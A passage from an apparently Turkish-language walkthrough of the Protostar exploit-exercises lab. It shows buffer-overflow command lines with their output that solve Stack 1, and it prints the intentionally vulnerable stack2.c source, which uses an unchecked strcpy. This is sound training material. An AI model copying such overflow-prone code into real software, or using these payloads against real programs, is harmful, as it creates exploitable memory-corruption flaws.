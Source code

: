 ```bash
$ user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A' * 64 + 'a'")
Try again, you got 0x00000061
```

```bash
$ user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A' * 64 + 'dcba'")
you have correctly got the variable to the right value
```

![alt text](protostarPNG/stack-10.png "stack01")

64 tane A yazıp bufferı taşırdıktak sonra `modified` değişkenine vermek istediğimiz değeri `little endian` a göre yazdık ve başarıyla değişken değerine istenilen `0x61626364` değerini vermiş olduk.

# Stack 2

https://exploit-exercises.com/protostar/stack2/

``` c
// stack2.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char *variable;

    variable = getenv("GREENIE");

    if(variable == NULL) {
        errx(1, "please set the GREENIE environment variable\n");
    }

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
        printf("you have correctly modified the variable\n");
    }
    else {
        printf("Try again, you got 0x%08x\n", modified);
    }

}
```
